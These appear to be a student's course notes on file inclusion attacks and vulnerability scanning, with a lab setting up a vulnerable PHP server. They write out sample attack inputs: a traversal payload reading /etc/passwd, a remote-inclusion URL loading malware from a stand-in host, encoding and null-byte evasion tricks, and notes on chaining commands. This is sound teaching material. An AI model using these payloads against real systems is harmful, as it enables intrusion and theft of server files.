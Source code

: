 # Week 2: File Inclusion and Vulnerability Scanning

## Lecture Notes: LFI and RFI

### Web Application Review

* web applications are often built on default file system setups (ex. /var/www/html) with default files (ex. index.html)

### Directory Traversal

* web applications don't always properly validate user input
* attacker can read files without authorization
* most common method is ../ or ..\\

### Directory Traversal vs. File Inclusion

* directory traversal can lead to file inclusion
* execution is the main difference

### LFI and RFI

* Local File Inclusion
  * attackers use local files to exploit areas of the application vulnerable to file inclusion
  * ex. website.com/view.php?file=file.txt | website.com/view.php?file=../../etc/passwd
* Remote File Inclusion
  * attackers use remote files to exploit areas of the application vulnerable to file inclusion
  * ex. website.com/view.php?file=file.txt | website.com/view.php?file=http://evil.com/malware.php

### Evading Input Sanitization

* URL encode parameters
  * ../ -> %2e%2e%2f
* null byte
  * ../../etc/passwd%00.txt

## Lecture Notes: Vulnerability Scanning

* a technique used to identify hosts/host attributes and associated vulnerabilities
* pros:
  * fast
    * less expensive than a pentest
    * used by pentesters during a time-boxed engagement
  * can usually be automated
* cons:
  * not as thorough
  * false positives
  * ratings can be subject to change
    * environment
    * configuration
    * data
  * not stealthy by default
* why use?
  * compliance
  * easy
  * fast

### Types of Scanners

* network
* web application

### Examples of Scanners

* traditional
  * OpenVAS
  * Nessus
  * Rapid7
* web application
  * Nikto
  * Burp suite
  * ZAP

## Activity: Scanning with Nikto

```
nikto -host 10.0.5.24
```

## Activity: File Inclusion Vulnerabilities

```
mkdir file-inclusion
cd file-inclusion
nano index.php
nano page1.html
nano page2.html
nano page3.html
php -S 127.0.0.1:9000
# navigate to 127.0.0.1:9000 in web browser
nano rfi.html
python3 -m http.server 8000
cp /etc/php/8.1/cli/php.ini .
nano php.ini
# change allow_url_include to On
php -S 127.0.0.1:9000 -c php.ini
```

## Bifur and Activities Notes

* was able to use the "Inspect" feature to change the file being requested
* can use ; to string commands together
* can use PHP files via RFI to run commands (system function in PHP)
